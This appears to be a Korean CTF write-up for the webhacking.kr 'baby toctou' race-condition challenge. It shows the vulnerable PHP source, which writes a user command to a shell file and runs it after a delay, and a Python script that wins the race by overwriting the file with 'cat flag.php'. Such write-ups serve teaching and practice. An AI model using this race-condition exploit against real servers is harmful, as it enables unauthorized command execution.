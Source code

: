 ```yaml
---
title: ["[Webhacking.kr] baby toctou🍼 (race condition - 50)"]
date: 2024-12-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, race condition, toctou]
---
```


```php
<?php
  // system($_GET['q']);
  if(!preg_match('/^[a-f0-9]+$/',$_COOKIE['baby_toctou'])){ $newCookie = uniqid().rand(1,999999999); setcookie("baby_toctou",$newCookie); $_COOKIE['baby_toctou'] = $newCookie; }
  $cmd = $_GET['q'];
  $myfile = fopen("user/{$_COOKIE['baby_toctou']}.sh", "w") or die("Unable to open file!");
  fwrite($myfile, $cmd);
  fclose($myfile);
  if(($cmd === "ls") || ($cmd === "cat api.php") || ($cmd === "cat index.php")){ // valid check
    sleep(1); // my server is small and weak
    system("sh ./user/{$_COOKIE['baby_toctou']}.sh");
  }
  else{
    echo <<<HELP
only "ls", "cat api.php", "cat index.php" allowed
HELP;
  }
?>
```

`TOCTOU`는 Time of Check to Time of Use의 약자이다.  

`.sh` 파일을 쓰고 실행하는 사이에 `sleep(1)` 1초의 간격이 있다.  
이 시간동안 파일 내용을 변경할 수 있다.  

old-60 문제와 거의 똑같은 문제인 셈이다.  

```python
import requests
import threading
import time

url = "http://webhacking.kr:10019/api.php"  
cookies = {"baby_toctou":"675279788a09d467354543"}

def write_exploit():
    count = 0
    while True:
        try:
            requests.get(f"{url}?q=cat+flag.php", 
                         cookies=cookies)
            count += 1
            print(f"[+] Create file attempt #{count}")
            time.sleep(0.1)
        except:
            pass


ex = threading.Thread(target=write_exploit)
ex.daemon = True
ex.start()

try:
    while True:
        time.sleep(1)
except KeyboardInterrupt:
    print("\n[!] Stopping exploit")
```

Python으로 계속 `.sh` 파일에 `cat flag.php`를 작성하면서,  
같은 쿠키 값을 가진 다른 브라우저에서 필터를 통과할 수 있는 명령어인 `ls`를 실행하면 flag를 볼 수 있다.  